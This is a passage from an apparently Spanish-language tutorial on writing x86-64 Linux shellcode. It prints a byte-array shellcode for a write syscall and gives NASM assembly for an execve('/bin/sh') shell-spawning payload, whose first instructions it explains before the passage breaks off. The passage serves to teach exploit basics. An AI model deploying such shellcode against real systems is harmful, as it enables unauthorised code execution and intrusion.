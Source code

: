 Estos dos comandos nos dejo un binario elf, el cual si ejecutamos, se ejecutara la syscall write, y mostrara el texto:

![](/imgs/shellcode/1.png)

Y a toda madre, funciona, pero eso no es una shellcode, es un binario elf, y si lo vemos en un editor hexadecimal podemos ver la shellcode en hexadecimal

![](/imgs/shellcode/2.png)

Asi que para pasarla a un byte array, que seria la forma en la que se inyectan, primero usaremos

- ```objcopy -j .text -O binary shellcode.o write.bin``` para generar un archivo .bin

- ```hexdump -v -e '"\\" 1/1 "x%02x"' write.bin; echo``` para imprimir el byte array

Y ahora si, esto si es una shellcode a como estamos acostumbrados a verlas:

```
\xb8\x01\x00\x00\x00\x48\xbe\x4e\x61\x7a\x75\x6e\x61\x00\x00\x56\x48\x89\xe6\xba\x06\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\x0f\x05
```

## Shellcode para conseguir una shell

Ahora usaremos execve para poder ejecutar /bin/sh, y que consigamos una shell, el codigo es el siguiente:


```
section .text
    global _start

_start:

    xor rdx, rdx
    push rdx
    mov rax, 0x68732f2f6e69622f
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    xor rax, rax
    mov al, 0x3b
    syscall
```
Explicare directamente lo que esta dentro de ```_start``` por que lo demas ya saben que hace

- ```xor rdx, rdx``` El registo ```rdx``` haciendo una operacion XORing consigo mismo, esto es para que el registro este limpio antes de usarlo, es buena practica nomas, si se le quita no pasa nada

- ```push rdx``` Metemos un null bye al stack para indicar el final de la cadena que se le pasara como argumento a execve

- ```mov rax, 0x68732f2f6e69622f``` Copiamos /bin/sh al registro rax (la cadena esta en hex)
